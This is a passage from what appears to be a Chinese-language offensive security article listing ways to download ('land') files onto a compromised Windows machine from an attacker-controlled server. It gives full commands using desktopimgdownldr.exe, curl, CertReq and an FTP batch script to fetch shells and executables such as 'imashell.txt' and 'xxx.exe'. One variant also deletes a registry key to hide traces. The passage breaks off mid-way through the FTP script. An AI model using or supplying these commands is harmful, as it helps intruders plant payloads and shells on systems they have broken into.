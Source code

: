 **19.使用desktopimgdownldr.exe落地文件（出网）**  
  
  
如果你当前是普通用户，使用如下命令来下载远程文件：  
  
set "SYSTEMROOT=C:\ProgramData" && cmd /c desktopimgdownldr.exe /lockscreenurl:http://  
url/xxx.exe /eventName:desktopimgdownldr  
  
  
如果你是管理员，则使用如下命令：  
  
set "SYSTEMROOT=C:\ProgramData\" && cmd /c desktopimgdownldr.exe /lockscreenurl:https:/  
/url/file.exe /eventName:desktopimgdownldr && reg delete HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP /f  
  
（没复现成功，网上说是落地文件并修改锁屏）  
  
  
  
**20.用curl落地文件（出网）**  
  
  
这个似乎在Windows 10环境下会有，其它版本的Windows不确定，看运气吧，如果有则使用下面的命令：  
  
curl http://ip/imashell.txt -o ./shell.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSr3KwvANwt62T6aC3kJhHlyGRRkWPBcbR5J1ADVXGDiaRG1J1SY7TLzIQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**21. 使用CertReq落地文件（出网）**  
  
  
  
  
也是系统自带的好工具。给出命令如下：  
  
  
CertReq -Post -config   
https://ip/imashell.txt c:\windows\win.ini   
shell.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrVoYSwHAVahFhSWiaZtODSPYQBO4rtdaSWIwYAePlcApGgGTWJmpibbicw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**22.通过FTP落地文件（FTP协议出网）**  
  
  
听起来像是个不太通用的技巧，但还算挺通用的，首先我们需要在自己的VPS上开一个FTP服务，然后在其中放上想落地的文件，比如我把这个nc目录设为FTP服务，其中放一个imashell.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrWET5Qf8qhoicY9xMvprt23nLy1J63JuiaNyqPpWTPFQDn1VTGiatVibH8g/640?wx_fmt=png&from=appmsg "")  
  
然后怎么落地呢？用过FTP的朋友都知道，FTP连接和下载东西都是交互式的，一般的命令执行点肯定做不到交互式，所以要把操作都写在bat里，我们落地一个test.txt文件内容如下：  
  
open  
 ip  //这里写你FTP服务器IP  
  
user  
 username password  //这里写FTP用户名和密码  
  
binary  
  